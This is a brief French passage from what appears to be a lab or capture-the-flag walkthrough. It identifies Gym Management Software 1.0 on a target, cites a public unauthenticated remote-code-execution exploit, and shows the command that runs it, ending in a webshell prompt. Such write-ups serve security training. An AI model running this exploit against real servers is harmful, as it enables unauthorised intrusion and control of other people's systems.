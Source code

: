 ![Website](/img/Buff_1.png){: .center-block :}

On visite le site et on trouve sur la page http://10.10.10.198:8080/contact.php que le site est 'Made using Gym Management Software 1.0 '

![Website](/img/Buff_2.png){: .center-block :}

On trouve un exploit [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506) - Gym Management System 1.0 - Unauthenticated Remote Code Execution

On execute le script et on a un shell sur le serveur

~~~
root@Host-001:~/Téléchargements# python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> 
~~~
